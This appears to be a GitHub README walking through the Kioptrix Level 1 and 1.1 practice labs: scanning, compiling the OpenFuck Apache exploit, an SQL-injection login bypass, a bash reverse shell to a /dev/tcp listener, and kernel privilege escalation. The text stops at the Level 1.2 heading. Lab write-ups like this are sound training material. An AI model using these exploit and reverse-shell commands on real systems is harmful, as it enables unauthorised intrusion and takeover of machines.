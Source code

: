 # kioptrix-full-walkthrough
<h1>Kioptrix Level 1</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.
>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

>enum4linux <i><b>[machine-ip]</b></i>

>dirb http://<i><b>[machine-ip]</b></i>

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for “apache 1.3.20 vulnerability”.

Search for the exploit via searchsploit
> searchsploit OpenFuck

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

<h2>Modify the exploit code:</h2>

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

> cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

> vim OpenFuck.c

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

<b>Include the openssl rc4 and md5 libraries:</b>

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

<b>Install Libraries for compiling the modified exploit code:</b>

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

>./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199806037-13dfd40c-2bd7-4bd4-b3bf-6792315bb16b.png)

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 4:
Let’s take a deeper dive by inspecting what lies in the open port i.e. <i><b>[machine-ip]</b></i>:80
\nN.B. I reinstalled the machine, ts why the ip changed.

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener:

>bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1 (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 5:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 6:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 7:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>
